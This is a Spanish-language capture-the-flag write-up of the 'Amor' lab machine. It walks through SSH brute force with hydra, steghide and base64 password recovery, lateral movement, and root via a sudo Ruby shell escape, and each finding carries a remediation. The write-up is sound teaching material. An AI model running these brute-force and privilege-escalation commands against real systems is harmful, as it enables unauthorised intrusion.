







# 🛡️ Writeup — Máquina "Amor"

**IP objetivo:** `172.17.0.2`
**Sistema operativo:** Ubuntu 24.04
**Servicios expuestos:** `22 (SSH)`, `80 (HTTP)`

---

## 📌 Resumen Ejecutivo

> [!NOTE]
> Compromiso total del sistema (acceso root) mediante una cadena de fuerza bruta SSH, esteganografía en una imagen personal del usuario, reutilización de credenciales para movimiento lateral, y una configuración insegura de `sudo` sobre el intérprete de Ruby.

---

## 🔍 1. Reconocimiento

```bash
nmap -p- --open -sS -sC -sV -T4 -n -vvv -O -Pn 172.17.0.2
```

### Resultados
- **22/tcp → SSH** (OpenSSH 9.6p1 - Ubuntu)
- **80/tcp → HTTP** (Apache 2.4.58 - Ubuntu)


### Enumeración web
El servicio HTTP muestra una aplicación web corporativa (**SecurSEC S.L**), con posibles usuarios `carlota` y `oscar` (este último inferido posteriormente), indicios de credenciales débiles e información sensible expuesta.



---

## 🚩 Hallazgos

### 🟠 H1: Fuerza bruta SSH exitosa (`carlota`)

**Severidad:** Alta

**Resumen:** El servicio SSH acepta autenticación por contraseña sin protección contra fuerza bruta, y la cuenta `carlota` usa una contraseña presente en `rockyou.txt`.

**PoC**
```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64
```
Credenciales obtenidas: `carlota` / `babygirl`


```bash
ssh carlota@172.17.0.2
```
Acceso confirmado como `carlota` sobre Ubuntu 24.04.



**Impacto:** Acceso inicial al sistema.

**Recomendación:** Deshabilitar autenticación por contraseña en SSH; usar claves.

---

### 🟡 H2: Esteganografía en imagen personal + reutilización de credenciales (movimiento lateral)

**Severidad:** Media

**Resumen:** Una variable de entorno del usuario `carlota` contiene una pista dirigida a `oscar` sobre una imagen en `Desktop/fotos/vacaciones/`, que oculta mediante esteganografía una contraseña reutilizable como credencial del sistema.

**Detalle / Causa raíz**
```bash
ls -la
env
```
```bash
SECRET="Hola oscar, recuerdas las \"vacaciones\"..."
```


**PoC**
```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg .
```


```bash
steghide --extract -sf imagen.jpg
# -> secret.txt
```


```bash
cat secret.txt
# ZXNsYWNhc2FkZXBpbnlwb24=
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d
# -> eslacasadepinypon
```

Movimiento lateral con la contraseña decodificada:
```bash
su oscar
```
Acceso logrado como `oscar`.



**Impacto:** Compromiso de una segunda cuenta del sistema mediante información sensible expuesta en variables de entorno y almacenamiento inseguro de credenciales (esteganografía + Base64, no cifrado real).

**Recomendación:** Evitar información sensible en variables de entorno, y no depender de esteganografía/codificación reversible como control de seguridad.

---

### 🔴 H3: Escalada de privilegios vía `sudo` sobre Ruby (NOPASSWD)

**Severidad:** Crítica

**Resumen:** El usuario `oscar` puede ejecutar el intérprete Ruby como root sin contraseña, permitiendo obtener una shell root directa (técnica GTFOBins).

**Detalle / Causa raíz**
```bash
sudo -l
```
```
(ALL) NOPASSWD: /usr/bin/ruby
```

**PoC**
```bash
sudo /usr/bin/ruby -e 'exec "/bin/sh"'
```
```bash
whoami
# root
```


**Impacto:** Compromiso total del sistema.

**Recomendación:** Eliminar `NOPASSWD` sobre intérpretes de propósito general (Ruby, Python, Perl, etc.) — ver GTFOBins.

---

## 🔗 Cadena de ataque

```text
Enumeración web → Fuerza bruta SSH (carlota) → Esteganografía + Base64 (movimiento lateral a oscar) → sudo ruby NOPASSWD → root
```

---

## 🛡️ Recomendaciones generales

- Implementar políticas de contraseñas robustas.
- Limitar intentos de login (Fail2Ban).
- Evitar información sensible en variables de entorno.
- Auditar permisos `sudo` regularmente.
- Monitorizar accesos y actividad sospechosa.

---

## 🧾 Conclusión

> [!NOTE]
> La intrusión combinó fuerza bruta SSH, reutilización de credenciales vía esteganografía para movimiento lateral, y una configuración insegura de `sudo`, resultando en compromiso total del sistema.
